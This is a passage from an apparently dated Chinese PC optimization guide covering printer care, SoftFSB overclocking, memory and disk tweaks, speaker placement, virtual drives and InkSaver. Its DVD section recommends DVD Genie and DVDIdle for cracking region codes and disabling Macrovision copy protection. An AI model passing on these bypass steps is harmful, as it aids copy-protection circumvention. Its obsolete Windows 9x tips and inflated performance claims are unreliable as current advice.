- (8)在安装和拆卸打印机时不要带电拔插打印机的接口电缆，一定要先将打印机和计算机关闭再安装或拆卸打印机，以保护打印机和计算机。另外不要使用打印共享器之类的设备，因为它们的工作原理实际上就是在通电的情况下直接拔下打印机的接口线缆，并更换另外一台打印机的接口线缆，这很有可能烧毁打印机和计算机的端口。

## 7. 激光打印机的使用注意事项

- (1)激光打印机放置在远离阳光直射的地方，应保持使用环境整洁并通风好。同样，在打印机周围尽量避免有大功率的电器设备，以防止电磁干扰影响正常打印任务。

- (2)打印时尽量使用规范的复印纸，如果打印纸张过轻、过厚、过于光滑或特殊的纸都容易引起卡纸。纸张应整齐地包装和保存。长时间暴露在空气中会使纸张过于潮湿或干燥而影响打印质量。

- (3)如果硒鼓中的墨粉用完之后，不建议大家人工添加碳粉，因为一旦在使用中有碳粉泄漏，会对人体健康造成极大的影响。而且在更换硒鼓的时候，要注意把废粉收集仓中的废粉清理干净，以免影响输出效果。

- (4)不要轻易取出硒鼓盒，如果必须取出则需要将其放在暗处。如果存储的时间比较长，最好放入黑色胶袋中，或者用黑布裹好，以免使感光鼓曝光影响打印效果。

- (5)添加打印纸的时候需要事先进行整理，以去除静电和纸张中的纸粉。而且添加打印纸的时候需要将原有的纸全部取出后再添加，否则极易引起卡纸故障。如果出现卡纸，请小心地将纸取出，最好不要使用螺丝刀等有可能损坏打印机的工具。

## 8. 扫描仪使用的注意事项

- (1)扫描报刊杂志之类的纸质物件时候，事先要将物品表面的灰尘擦净，这不仅可以提高扫描的效果，而且可以避免由于灰尘落在玻璃表面影响扫描仪的正常使用。另外，在扫描手机、钥匙扣之类的物品时候，不要把尖锐的表面直接放置在玻璃表面，以防止划伤玻璃，如果确实需要扫描这些部位的话，一定要小心轻放，而且不要将上部的盖板放下，这是为了避免尖锐部位划伤玻璃表面。

- (2)在搬运扫描仪的时候，要将扫描仪的固定锁锁住，否则扫描仪内部的元件会因为碰撞导致扫描失真。

### 三、电脑硬件的应用优化

如今的PC已进入奔4时代，还没用上Pentium IV朋友的都想过把自己的机器升级一下吧，但是一方面苦于囊中羞涩，更主要的是Pentium IV采用了和以前完全不用的架构，如果升级就需要更换主板、CPU和内存条等部件，这样的开销并不是每个玩家都可以承受的。但是大家不必失望，我们可以用软件方式进行优化处理，这样不花一分钱就可以把计算机性能提升一个档次了。而且对于咱们这些穷玩家来说，榨干计算机的最后一滴潜能才可以真正体现出DIY的精髓所在。

首先介绍的一个免费优化硬件方法就是使用最新的驱动程序，由于新版本的驱动程序中解决了以前版本中的问题和错误，同时也可以更多的激发硬件潜能，比如安装了主板驱动程序补丁之后可以更好的支持硬盘DMA100/133模式、更新显卡驱动程序可以让3D游戏运行的更为流畅，所以通常最新版本的驱动程序可以让计算机硬件获得额外的效能。但是在此要提醒大家注意一点：GeForce系列显卡并不是驱动程序越新越好，尤其是在选择雷管系列驱动程序的时候就要根据自己的实际需要结合程序运行效果来选择。接下来，我们再分别看看如何对主要的硬件进行软优化操作。

### (一)CPU软超频

说起超频，大家首先想到的肯定就是打开机箱，然后按照说明书上介绍的进行跳线的设置，或者通过主板集成的免跳线功能来进行CPU超频。但是这样都有一个弊端：如果我们使用计算机只是上网冲浪、和好友聊天，或者是输入文稿，这就使得CPU在处理简单任务的时候仍然运行在较高的频率状态，这种超负荷状态就白白浪费了CPU资源，也很容易让CPU损坏。如果你想在运行大型软件游戏的时候让CPU超频，但是在运行简单任务的时候让CPU运行在标准状态，不妨试试SoftFSB，这样才可以最大程度的保护CPU。

其实SoftFSB是一款集中了硬跳线和BIOS软跳线于一体的超频软件，它通过软件控制主板上的时钟发生器产生不同的时钟频率，从而调整CPU外频，以达到超频的目的。使用之前先按照ftp://ftp.cq.hktk.com/soft/soft_others/p-sfsb170.zip下载链接得到SoftFSB汉化版本，将其解压缩之后就可以直接运行程序进行CPU软超频。具体的操作有两种方法。

### 1. SoftFSB支持的主板

对于Abit、AOpen、ASUS、A-Trend、GiGa、GVC、Iwill、MSI、Intel等常见的主板品牌，可以先选中【目标主板】并从下拉菜单中挑选自己所使用的主板，接着再单击下面的【获得F S B】按钮，SoftFSB会列出当前CPU外频、PCI总线频率和CPU的主频等信息。此时只要拖拽滑块条来选择合适的CPU外频和PCI总线频率，最后按下【设置FSB】按钮就能够立即完成CPU的超频操作(如图6)。


### 2. SoftFSB不支持的主板

如果你所使用的主板没有在【目标主板】的下拉菜单中列出，还可以尝试另外一种方法：选择SoftFSB支持的主板时钟发生器，使其产生不同的频率来达到超频的目的。目前制造主板时钟发生器的厂家并不多，生产出来也只有几种IC-WORKS、ICS、WINBOND、C-MEDIA、IMI等，基本上所有主板采用的时钟发生器都是这几种。不过用这种方法超频之前最好打开机箱查看一下主板所采用的时钟发生器芯片的具体型号，然后在SoftFSB中选择【目标时钟发生器】，接着在下拉菜单中选择相对应的时钟发生器型号，然后按照前文所述的方法完成超频操作。

如果超频不成功也没有关系，只要重新启动计算机就会恢复到超频前的状态，而机器也丝毫不会受损。不过这样使用的时候也会带来一个问题：每次开机都要运行SoftFSB来进行CPU超频设置是不是太麻烦了？其实只要在SoftFSB中点击【选项】按钮，在图7所示的窗口中点取【允许设置】，同时在【FSB(PCI)】下拉菜单中选取合适的CPU外频，最后选中【允许任务栏】选项。这样每次开机的时候就能够自动激活SoftFSB，并使得机器自动运行在设置的频率下，是不是很方便？


### (二)内存释放

我们都知道Windows系统对于内存的要求比较高，在运行程序时如果将你机器中的物理内存“吃”完的话，系统会自动在硬盘上划出一个空间来建立一个虚拟内存，这也就是交互文件win386.swp的由来。虽然这样可以使用硬盘来代替内存运行更多的程序，但硬盘的速度和内存存取速度的差距还是十分明显的。而更可惜的是，内存中常常会有一些以前运行程序时驻留在内存中的空间没有完全释放出来给其他程序使用，要想将内存的油水全部榨干，除了频繁的重新启动计算机之外，还是来看看MemTurbo这个软件吧。

MemTurbo是一个很有特点的内存整理工具，因为大多数此类工具仅仅将占用了内存的无用程序进程“杀死”，而MemTurbo则可以查看当前系统中正在调用的DLL动态连接文件，如果有暂时没有使用到的，则把它们由物理内存中转移到由硬盘空间建立的虚拟内存中，等到需要的时候再进行调用，所以在速度方面则比其他工具更胜一筹。

MemTurbo可以按照http://www.win2000.com.cn/down/mt2.exe地址链接下载得到，安装后它会在系统任务栏中添加一个图标，此时程序能自动根据机器内存大小设置一个可以进行优化的上、下限。一般来说内存剩余的警告下限是1M或2M；如果机器物理内存达到128M，则可以相应提高到6M。而程序对内存优化后的自由内存数即为上限设置，一般64M的系统使用21M的上限设置，建议设置的优化上限不宜过大，否则程序会强行将很多内存数据转入交换文件，系统性能反而得不到提高。通过MemTurbo优化内存有两种方法。

### 1. 手工优化

点击右下角的任务栏图标之后会弹出程序主窗口，在下部是当前系统的内存使用情况，包括物理内存和虚拟内存两方面，右边有两个滑动条用于设置内存数值。当物理内存下降到“Auto Recover Level”设置的数值时，MemTurbo就开始对内存进行整理，一直满足可用的内存达到“Target Free RAM”为止。这两个数值在中间的列表区中分别以红色和浅灰色表示，而黄色的线则表示目前可用的物理内存数量。所以在使用的时候，只要用鼠标调整好最低内存报警线和最大可用内存数量之后，点击下部的【应用】按钮就可以让它在后台来默默的为你服务了（如图8）。


### 2. 自动优化整理

如果每次清理内存的时候都需要手工操作，这就显得非常麻烦了，所以在日常使用中更多的是依靠软件来自动完成内存优化整理操作。

首先在主界面中切换到【Options】标签页，选择【Recover RAM automatically every XXX minutes】复选框，并输入内存自动优化的时间间隔，这样每隔固定的时间，MemTurbo就会自动进行内存优化，由于优化的速度很快，所以我们基本上感觉不到程序在运行。另外，选中了【Recover RAM automatically when alarm level is reach】一项之后，当可用物理内存低于前面预设的下限数值，程序就自动进行内存优化(如图9)。一般建议大家采用后面一种方式进行优化操作，这样能够在可用物理内存下降到一定程序的时候进行优化，避免由于资源不足造成系统出错的情况。


### (三)硬盘优化

如今硬盘转速越来越快，但是仍然有朋友觉得数据传输的时候速度很慢，这是为什么呢？其实一方面是由于主板、CPU等部件限制了数据传输的速度，另外一方面就是没有对硬盘进行合理的优化设置。因此，如果想让计算机能够以更快的速度运行，对硬盘优化就是必不可少的一道重要工序。

### 1. 激活DMA模式

有些朋友购买了支持DMA 66/100/133模式的硬盘，但是使用的时候却没有进行正确设置，这样相当于买了一部法拉利轿车，结果却只能以低速行驶，实在是浪费行为。而开启DMA模式之后能增加硬盘或光驱的读取速度，这对提高计算机的整体性能大有裨益。

激活DMA设置的时候，可以在控制面板中双击【系统】图标，接着在【设备管理器】中选择【磁盘驱动器】并双击欲优化的硬盘驱动器，在弹出的属性窗口中切换到【高级设置】标签，选择【传输模式】中的【DMA(若可用)】一项(如图10)。根据提示重新启动系统，进入BIOS设置，确定已打开了对DMA的支持，这样就打开了DMA传输模式。


### 2. 缓存设置

由于物理内存有限，Windows同时执行的任务越多，物理内存的消耗也就越多，以至于内存会消耗殆尽。为此，Windows通过虚拟内存把硬盘当作内存使用，不过由此而来的是速度要慢多了，因为硬盘存取速度比内存要慢得多，所以合理设置虚拟内存，可以为系统提速。

设置虚拟内存的时候建议让Windows自行管理，这样Windows会根据内存的使用情况自动改变交换文件的大小。有条件的朋友可以单独设置一个分区专门存放交换文件，不过这个分区必须有足够的剩余空间，至少需要200MB以上的剩余硬盘空间，否则Windows容易出现内存不足的错误。另外，如果电脑有两个以上的硬盘，交换文件要设置在速度较快的硬盘上，这样可以提高虚拟内存的存取速度。

### 3. 磁盘碎片整理

在计算机使用一段时间之后，随着我们频繁的安装和卸载文件，硬盘中会出现很多不连续的磁盘空间。当你在运行大型程序的时候，由于文件并不是连续读取，这就造成了速度的下降，而且频繁的换区域读取也会增加磁头的工作负担，容易导致硬盘损坏。对于这种情况，建议大家通过专门的磁盘碎片整理程序进行磁盘优化操作，在此就不详述了。

在Windows中附带了一个磁盘碎片整理程序，不过很多朋友都会觉得这样整理碎片速度很慢，所以纷纷选择了第三方的磁盘优化工具。在此需要提醒大家注意的是，虽然使用Windows集成的磁盘碎片整理程序需要花费比较长的时间，但是它的效果最好，不像一些程序能够快速完成碎片整理操作，可惜通过Windows查看还有很多碎片文件存在。因此对于鱼与熊掌，选择哪一个就看自己的需要了。

### 4. 硬盘清理

很多朋友在使用计算机的时候随意安装软件和游戏，用完之后也没有通过附带的程序卸载，而是直接将其删除，这样就很容易在系统中留下许多垃圾文件，时间长了之后自然会影响运行速度，所以我们有必要经常对硬盘进行清理。

在清理硬盘中的垃圾文件时候可以借助第三方软件来实现，比如CleanSweep Deluxe、Safe Clean Utilities等工具进行硬盘中垃圾文件的清理，再借助RegClean、超级兔子注册表优化软件等工具进行注册表的清理。完成硬盘清理操作之后，你会发现硬盘空间增加了不少，而且系统运行速度也有所提升。

此外，我们还可以针对Windows中的默认设置来进行硬盘的清理工作。比如大家都知道Windows Me/XP中都提供了一个自动恢复功能，这虽然能够帮我们快速恢复到出现错误之前的状态，但是它却需要占用大量的硬盘空间，如果不需要这个功能可以将其关闭来节省硬盘空间。对于Windows中IE缓存、我的文档、虚拟内存等系统默认的文件存放位置，我们也可以根据需要将其转移到其他分区中，这样可以避免频繁读写系统分区而造成大量的磁盘碎片文件，对于提高计算机性能也有一定的帮助。下面就来看看怎样更改IE缓存和我的文档默认的文件存放目录。

### (1)更改IE缓存目录

运行IE浏览器之后，点击【工具】→【Internet选项】命令，在弹出的窗口中选项【常规】标签并点击【设置】按钮，这时可以看见图11所示的窗口。接着单击【移动文件夹】按钮，并在弹出的文件夹窗口中选择更改后的存放目录即可。


### (2)更改我的文档目录

鼠标右击桌面上的【我的文档】图标，并选择弹出菜单中的【属性】命令，这时可以看见图12所示的属性窗口。此时只要在【目标文件夹】输入框中键入转移后的目录名称，或者直接点击【移动】按钮来设置目标文件夹即可。


## 5. 硬盘降速

很多时候，我们使用计算机只是上网冲浪、下载软件或者是打字写作、欣赏影碟，这些操作对于硬盘的速度要求并不高，但是此时硬盘还在努力的全速工作，自然也会增加硬盘的故障率。其实现在主要的硬盘厂商都提供了硬盘降速软件，可以用它们来让硬盘运转轻松一些，当然也就延长了使用寿命。

### (1) Maxtor Acoustic Management

Maxtor Acoustic Management 主要适用于各款 Maxtor 硬盘，可以按照 http://www.lander.com.cn/rjxz/software/AM3.2.exe 地址链接下载得到，它按控制程度分为 Quiet 和 Fast 两个级别。选择了 Quiet 之后磁盘将进入安静寻道模式，此时噪声明显减小，磁盘性能大幅度下降；选择了 Fast 之后磁盘将进入快速寻道模式，此时噪声减小，磁盘性能有一定下降。Acoustic Management 的主执行文件是 amset.exe，它拥有四个命令参数（如图13）。


图13 Maxtor Acoustic Management 运行参数

```
amset.exe /quiet: 进入Quiet模式；
amset.exe /fast: 进入Fast模式；
amset.exe /off: 关闭降噪功能，此时硬盘性能最高但噪音最大；
amset.exe /check: 查看当前硬盘的运作状态。
```

### (2) IBM Feature Tool

IBM Feature Tool 可以按照 http://service.boulder.ibm.com/storage/hddtech/ibmftool-install.exe 链接下载得到，它主要适用于IBM硬盘，也能够使用在其他型号的硬盘中。该软件可以让硬盘在低噪音的安静模式和高性能的正常模式下切换，使用的时候需要事先制作一张PC DOS 2000引导软盘，然后通过软盘启动计算机进行相关的设置即可。由于这个软件的使用也很简单，在此就不详述了，有兴趣的朋友不妨自己尝试一下。

## 6. 其他优化操作

- (1) 在硬盘的连接方面，最好在一根数据线上连接一个硬盘，不要在将光驱、刻录机等其他设备也连接在这个数据线上，这样可以让硬盘做到带宽独享，对于提升速度有很大帮助。

- (2) 在其他硬件支持的情况下尽量使用最高的DMA传输模式，比如你所使用的硬盘支持DMA 66/100/133，虽然它们在持续传输速率上虽然差别不大，但DMA 100/133的突发传送速率要比DMA 66高很多，因此在主板、板卡等设备支持的情况下尽量使用最高等级的DMA传输模式。

- (3) 现在的内存条价格已经很便宜了，如果你可以将内存扩充至256MB以上，那么更多的数据处理可以直接在内存中完成，对于整个系统的速度提高大有好处。另外，建议那些机器配置好的朋友采用 Windows 2000/XP，这是因为 Windows 2000/XP 是一个纯32位的操作系统，它们对于系统资源的分配调度功能则要比 Windows 9x 强大很多，比如同样的一组文件在 Windows 2000 下复制的速度比 Windows 9x 下快得多。而且 Windows 2000 还能够自动配置内存作硬盘缓存，内存越大则缓存也就越大，这不仅能够提高系统运行速度，对延长硬盘的寿命也是大有好处的。

- (4) 使用 Windows 2000/XP 的朋友可以对交换文件进行分布式设置，也就是说将在每个分区上都设置交换文件，而且将经常使用的分区分配得大一些，这样在调用该分区中文件的时候无需使用其他分区中的交换文件，所以能够感觉到速度明显提升。

## (四) 多媒体系统优化

如今购买计算机的朋友都会选择一款声卡和一对音箱，然后在家中搭建一套电脑家庭影院。这套家庭影院系统的性能虽然与所选择硬件设备有很大关系，但是如果我们没有对其进行合理的优化设置，那还不一定能获得最佳的效果，反倒是在一般普通的多媒体系统中进行优化设置之后，却可以得到让你意想不到的出色效果。

### 1. 声卡的优化

首先要保证为你的声卡安装了最新的驱动，而且建议安装最新版本的 DirectX 程序，虽然这个东西是专门为游戏爱好者所定制的，但它同样带有许多其他方面的组件，其中涉及到声卡的 DirectSound & DirectMusic 组件就能够优化你的声卡。

在优化声卡的时候，我们不需要任何第三方软件，只要通过 Windows 中附带的程序就可以迅速完成。下面简单介绍一下具体的优化步骤：

#### (1) 开启硬件加速

在控制面板中双击【声音和多媒体】图标，在弹出的窗口中选择【音频】标签页，接着在高级音频属性窗口中切换到【性能】标签页，在图14所示的窗口中可以看见 Windows 默认的设置没有把音频播放的硬件加速功能开启，如果你使用的是一块硬声卡（不是集成在主板上的AC97声卡），那么就浪费了声卡的加速功能。此时拖拽【硬件加速】右边的滑块条至“全”位置，这样就开启了声卡的完全硬件加速功能。

#### (2) 设置扬声器类型

有些朋友使用的是立体声耳机，有些朋友使用的是2.1音箱，还有使用手提的便携音箱以及4.1、5.1等各种声音输出系统的，如果这些扬声器全部采用Windows默认的设置，那自然是无法工作在最佳状态的。如图15所示，我们在【扬声器】标签中可以看见这里提供了包含上述各种类型的11种扬声器，根据自己所使用的设备选择合适的类型，然后再试听一下音效是不是好了一些？


图15 设置扬声器类型

#### (3) 数字 CD 播放

用电脑播放音乐 CD 时，信号在到达声卡之前会被 CD/DVD 驱动的 DAC 从数字信号转换为模拟信号。激活数字 CD 音频回放之后，这个步骤将在声卡的 DAC 中进行，大多数新型声卡的 DAC 都比光盘驱动的 DAC 要好，由此可以提高 CD 音频的质量。

在 Windows 中激活数字 CD 播放时候，可以在控制面板中双击【系统】图标进入设备管理器并选中光驱所在的位置。用鼠标右键点击光驱之后选择弹出菜单中的【属性】命令，此时可以看见图16所示的窗口，将其中的【在这个 CD-ROM 设备上启用数字 CD 音频】选项选中即可。

不过需要提醒大家注意的是，并非每一款光驱都支持数字 CD 播放，只有在比较新的光驱中才提供了这个功能。


图16 激活数字 CD 播放

#### (4) 使用音箱调节音量

大家都知道在 Windows 中可以直接调整音量的大小，不过还是建议大家将这里的音量设置为最大值的 40% 左右，然后使用外接音箱来调整音量的大小。这样既可以减轻声卡本身的扩音负担，也能获得比较好的音频效果。

### 2. 音箱位置的摆放

音箱是整个多媒体系统中的作用非常重要，如果你希望在欣赏大片的时候获得身临其境的感觉，那么怎样摆放音箱就是一个很值得研究的问题了。如果你能花上一点时间把它们摆到正确的位置上，声音质量的提升绝对会让你吃惊。

#### (1) 双音箱

一般来说，双音箱的合理摆放位置应当是以听音者为中心，与左右音箱成中心对称较为理想。简单来说就是听音者与音箱、音箱与音箱之间的距离基本上是相等的，构成的平面应当是一个等腰三角形，两只音箱的垂直平分线与人最好成 45 度的夹角，两音箱之间的距离应当在 1.5~2 米为宜。

如果两只音箱的间距过近，人耳听到是只是扬声器直接的声场效果，没有听到经过墙壁及周围空间的反射的渲染效果，而且声场变窄，声音不免干涩、混杂。即便是经过了墙壁和空间的反射，由于你离声场过近，经过衍射的声音也被掩盖了，你是很难听到的。过近的摆位最大的缺点就是由于高低音单元存在相位差，你听到的声音是不同步的，离得越近感觉也就越明显。解决的方法就是将两只音箱置于显示器稍后一些的地方，可以把音箱离墙稍微近一些，大约距离墙面 20~30 厘米为佳，这样低音声波经过了墙壁的反射后声波产生叠加，同时它所发出声波的低频部分会更有效地带动周围的空气和喇叭一起振动，这样声波由于叠加的低音部分就会得到加强，使声音更加浑厚有力而富有感染力，所以音箱越贴近墙角放置，人所听到的低音效果就越好。


图14 开启声卡的硬件加速功能

听到的低音效果越强。

但是摆放音箱时不要让它的后部紧靠着墙，因为那样声波不能完全放出，得到振动的只是墙的局部，所以声场的效果自然就会大打折扣。还有一点是大家要特别注意的，音箱的侧面不要离墙太近，这样就会在声波产生的同时，由于侧面墙体的反射作用改变了声波的传播方向，到达人耳的声波强度也会不断地减弱。所以是达不到理想的效果，如果条件允许的话还可以在墙面上贴一些吸音的材料，这样可以达到更为理想的效果。

#### (2) 2.1音箱

2.1结构的音箱比双音箱多了个单独的低音单元，只要把低音炮放在电脑桌下的地面上即可。不过低音炮的放置需要根据它的质量来确定了：质量不好的低音炮应该放在墙角，以提供更强劲的低音输出；高质量的低音炮应该远离墙角，以避免反弹声波的干扰而降低音质。如果音箱与地面有共振，可以用棉布或者海绵将底部包裹起来，这样既不容易让底部受潮，又避免了共振的产生。至于2.1音箱的其余摆放可以参照双音箱完成，在此就不详述了。

#### (3) 4.1/5.1音箱

4.1结构的音箱的环绕喇叭是摆放在人的左右两侧，而且是以面对面的方式摆放，如果架设空间允许的话，最好是将这两个喇叭放在高于人坐姿时头部以上50厘米处。另外这两个喇叭与聆听者的距离最好是相同的，要能够找到有两面墙可以吊挂喇叭的空间，那么可将环绕喇叭以面对面或是朝向前方的方向，吊挂在我们后方两侧的墙上，高度仍旧维持前述的位置。

如果后方没有墙，也可以直接放在用户左右两侧后方地上，喇叭面向上，在条件允许的情况下，将喇叭稍微垫高会比较好一些。若是采用5.1声道的音箱组的话，就还会多一个中央声道喇叭，而这个中央声道的喇叭便可以放在显示器的上方；有可能的话可以挂在显示器前的墙面上，但是要求前置喇叭与中央声道喇叭的高度尽可能相同，而且这三个喇叭的正面应在同一平面上，或是中央声道喇叭稍微后退，但其正面与前置两喇叭的正面呈平行的状态。

## (五) 虚拟光驱

如今游戏、教学软件的个头都越来越大，而且动辄就是数张CD的容量，如果每次运行游戏或者学习的时候都通过光驱读取，那无疑是给光驱增加了许多负担，其实我们可以通过虚拟光驱软件来给光驱减减负。目前的虚拟光驱软件很多，在此建议大家分别使用WinISO和Daemon来制作和使用光盘镜像文件。

### 1. 制作虚拟光驱文件

WinISO可以在http://www.winiso.com/cn网站下载得到，它不仅可以将现有光盘制作成为一个标准的ISO格式文件，而且还能够直接对ISO和BIN格式的文件进行编辑，比如往镜像文件中添加、删除、重命名或者是提取文件，同时也可以将其他格式的镜像文件转换为标准的ISO格式文件。下面就先来看看如何把一张光盘转换为ISO镜像文件。

(1) 启动WinISO之后将游戏光盘放入光驱中，接着运行【动作】→【从CDROM制作ISO文件】命令。在弹出的窗口中的【输出文件】对话框中确定游戏存放的路径和文件名，同时要在下部选中【ASPI】来制作ISO文件。

(2) 点击【制作】按键之后WinISO就开始读取光盘中的数据资料并把它们转换为ISO格式的文件。制作完成之后切换到刚才确认的文件存放路径，就可以发现制作好了一个ISO文件了。而且此时ISO文件已经与WinISO建立了默认的关联，双击之后可以打开查看ISO文件的内容。

(3) 要是想把自己辛苦下载的语言补丁和进度存放在其中的话，还可以在WinISO中进入相应的文件夹，然后点击【Add】按钮，并在弹出的窗口中选取补丁文件和游戏进度文件即可，这样制作出来的ISO应该说是为你量身定制的吧。

WinISO还能够把ISO镜像文件中的某些文件直接提取出来，或者从具备引导光盘能力的ISO文件中提取启动文件来帮助那些拥有刻录机的朋友来制作一张开机光盘；支持目录和文件转换为ISO格式文件；还可以实现BIN和ISO镜像文件的转换，而且它的批量更换功能也让整个转换工作变得更为轻松。

### 2. 使用虚拟光碟

制作好镜像文件之后建议按照http://jshttp.skycn.net/down/daemon320.exe下载Daemon来虚拟光盘，它能够将各种镜像文件直接虚拟成为光盘使用，而且它能够支持bin（需cue索引文件支持）、iso、ccd或者是cwt格式的镜像文件，因此支持文件的类型非常广。使用Daemon来虚拟光盘也非常简单，此时先右击任务栏的图标，在弹出的菜单中选择【Virtual CDROM】→【Device 0; No media】→【Mount image】选项，并通过文件选择窗口中选中上述格式的镜像文件，按下【确定】按钮之后就好像是把这个镜像文件放入了虚拟的光驱中。卸载光盘的时候也只要通过这个菜单的【Virtual CDROM】→【Unmount all drives】即可。而且Daemon虚拟光驱还有自动运行功能，当放入的虚拟光盘有自动运行文件时，它就会像真正的光驱一样弹出自运行界面。

另外，Daemon最多还可以支持四个光驱，也就是说可以将四个镜像文件虚拟为四张光盘。使用这项功能的时候，也要先右击任务栏的图标，并选择【Virtual CDROM】→【Set Number of Devices】，接着确定所需的虚拟光驱数量。确定之后，就可以看见资源管理器中又多出了几个光驱盘符，然后再采用上述方法插入光盘即可。有了这项功能，那些不满足于一个虚拟光驱的超级游戏玩家就有福了，可以一次性的将四张不同的游戏光盘分别放入虚拟光驱中，然后就可以来一场腥风血雨的鏖战了。

## (六) DVD光驱优化

随着计算机硬件的飞速发展，如今DVD光驱价格已经和普通的CD-ROM相差无几了，因此很多朋友在攒机或者升级计算机的时候都把它作为标准配置。其实在使用DVD光驱的时候也有一些优化措施，让你能够更好的欣赏DVD大片。

### 1. 区码调整

出于版权保护的目的，DVD光盘根据全球地理位置将划分了6个区域，如果我们购买的DVD光驱只能读取中国区的碟片，那么其余5个区域的DVD光盘就无法读取了。虽然可以通过升级DVD的Firmware来解决这个问题，可谁愿意拿自己的DVD作试验呢？所以我们可以通过DVD Genie来解决这个问题。它不仅能够对目前DVD对区码进行破解，而且还有许多实用功能，再加上它简单的易用，所以能帮助我们更好的欣赏DVD。

DVD Genie是一款绿色软件，在http://www.inmatrix.com站点下载得到之后只要将其解压缩到一个指定到文件夹中就可以使用了，因此你无需担心使用之后会有难以卸除而使垃圾文件残留在系统中。

运行DVD Genie之后，也许一些英文不太好的朋友看了满屏的英文会头晕，其实不必如此，仔细观察一下就会发现原来很多标签都是我们熟悉的DVD播放软件名称，比如WinDVD、PowerDVD、VaroDVD等等，而在不同的标签中就可以对你所采用的DVD播放软件进行区码破解和其他方面的设置优化。

比如笔者使用的是WinDVD，那么就可以在这里选择【WinDVD】标签并进行相关的设置。在这里提供了全球六个DVD区码，只要根据手中DVD碟片的区码进行选择即可（如图17）。接着要选择WinDVD的版本，目前的DVD Genie 4.02版最高支持WinDVD 2.3版，在此可以根据自己所使用的版本进行选择。不过需要提醒大家注意的是，选择DVD Genie破解软件版本的时候一定要和所使用的DVD播放软件版本一致，如果你使用最新的WinDVD 3.0，而在设置的时候选取了2.3，那么DVD Genie将由于无法正确识别WinDVD的版本号而导致区码破解失败。


WinDVD的播放设置进行一番调整优化。在此可以选择声音播放模式、显卡类型、对笔记本进行电源管理，以及是否采用DirectShow、TVoverscan、硬件BOB模式，甚至还能够调整屏幕上字幕的前景色和背景色彩。需要特别指出的是，如果你所使用的显卡是nVidia公司出品的TNT2或者是更好的Geforce系列，那么不妨选择你的显卡类型，这样DVD Genie会打开WinDVD的硬件加速功能来优化DVD影像的图像质量（如图18）。


完成这些设置之后，点击图17窗口右下部的【Apply】按键将设置保存起来，然后再调用WinDVD欣赏影碟，这时候将发现原来无法识别的美国区碟片能够顺利的播放了，看来真是神奇呀。对于那些性急的朋友还可以直接点击【Run】按钮打开WinDVD播放影碟，这样用其他软件调用WinDVD还是第一次吧。

如果大家细心一点的话，将发现在窗口下部还有一个【More Options】按键，点击之后还能够对为了让大家更好到使用DVD Genie，还有一些相关到设置需要提及一下。在【Auto Region】标签下有几项非常重要的设置内容，比如设定DVD Genie在 Windows 启动之后自动运行、在插入 DVD 光碟后根据光碟的区码来自动设置、设置好区码以后自动运行所选择的播放器、启动 DVD Genie 后自动根据目前 DVD 光驱的碟片区码与光驱区码设置进行统一设置、运行 DVD 播放器之后关闭 DVD Genie、运行 DVD 播放器之后将 DVD Genie 的图标最小化到任务栏、在设置区码之后自定义一个可选择的程序运行（如图 19）。其中建议大家选取前面三个选项，这样只要将光盘放入 DVD 光驱中就可以由 DVD Genie 和 WinDVD 搞定区码设置并自动进行播放，而此时你也不妨端着一杯咖啡欣赏影片了。


### 2. 虚拟DVD

由于 DVD 最大的特点在于容量大，在电脑上使用 DVD 光驱欣赏影碟的时候可是辛苦了它，通常播放一部 DVD 影片需要 2 个小时以上的时间，这期间从头到尾勤奋的 DVD 光驱得不到丝毫的休息，若是遇到花碟滥碟，就更加严重影响了 DVD 光驱的寿命，大家都不希望它在一年半载之内就寿终正寝吧，所以特意给各位介绍一款 DVD 减压工具——DVDIdle。

DVDIdle 利用了 Smart Read-Ahead（智能预读）技术，它能够把有关的数据资料存储到硬盘中，以减轻 DVD 光驱的工作负担。例如一张 120 分钟的 DVD 影碟在 DVDIdle 努力之下仅仅需要读取 15 分钟就能完成所有数据的存储了，所以它能够延长 DVD 光驱使用寿命为原来的 2 至 8 倍！

使用 DVDIdle 也很简单，在运行程序之后先点击左边【General】选项并设定 DVD 光驱所在的盘符，接着切换到【Cache】按钮并选择一个硬盘空间大的分区作为数据缓存保存区。最后点击【Application】按钮并通过【Add】按钮把自己使用的 DVD 播放程序添加到支持列表中。完成上述设置之后，每次激活 DVD 播放程序的时候 DVDIdle 都会进行数据预读处理，然后再读取保存在硬盘中的文件进行播放，这样就大大减少了 DVD 光驱频繁的读盘操作，不仅保护了 DVD 光驱，还使得影像播放更加稳定（如图 20）。


另外，在【General】中建议选中【Region Free】和【Macrovision Free】两项，这样可以破解一些 DVD 光驱的区码保护，还能够禁止 DVD 播放器内置的 Macrovision 保护功能。而且在设置缓存保存区的时候至少选择有 2GB 以上可用空间的分区，以防止空间不足无法保存 DVD 光盘的数据资料。

有 DVD Idle 之后，在欣赏 DVD 影碟的时候再也不会心痛光驱坚强的持续工作 2 个多小时了，赶快请它来为你的 DVD 光驱减减压吧。

## (七) 鼠标优化

鼠标是大家每天需要使用到最多的一个设备了吧，对其优化设置之后能够让我们使用起来更加便利。针对鼠标进行优化主要可以通过下面两个方面进行。

> 首先就来了解一下如何调整鼠标的属性，在控制面板中双击【鼠标】图标激活鼠标设置窗口，此时分别进入【鼠标键】标签，拖拽【双击速度】滑块条来调整双击鼠标的时间间隔，一般建议稍微偏快一些为好。接着进入【移动】标签，并拖拽【调整指针移动...】


## （八）打印机省墨优化

如今的打印机价格异常便宜，但是墨盒的身价依然居高不下，所以在安装了打印机驱动程序以后都选择省墨方式进行工作，不过以这种方式打印出来的效果实在是不敢令人恭维。如果想又少花费银子，又可以得到理想的打印效果，不妨尝试一下 InkSaver 这款专业的省墨软件。

InkSaver可以在http://www.inksaver.com网站下载得到，它的工作原理是在将打印任务发送至打印机的过程中，InkSaver会自动截获并对文档进行分解，在省墨的前提下尽量优化图像质量，由于InkSaver的处理速度非常快所以我们几乎察觉不到它的存在，但是的确可以帮我们节省一些墨水。

安装好 InkSaver 之后，在右下角的系统图标栏中会多出一个图标，在开始打印之前建议大家双击图标对其进行一番设置。

Current Ink Settings(节墨设置):在【Current Ink Settings】标签下可以看到墨水设置选项卡默认的情况下黑墨盒和彩色墨盒各节省 25%，不过我们可以根据自己的需求进一步调整，比如将黑墨盒多设置一些，而彩色墨盒设置的少一些(如图22)。然后选中【Enable InkSaver】，否则 InkSaver 是不起任何作用的。

完成后点击窗口上方的【Print Sample Page】按钮就可以看到测试样张(如图23)。此时可以看见节省25%的墨水打印出来的效果和没有节省时候的效果几乎一样，不仔细看还真的看不出来呢！这样我们只需要花费比较少的墨水也能够获得不错的效果，银子自然也就节省下来了。

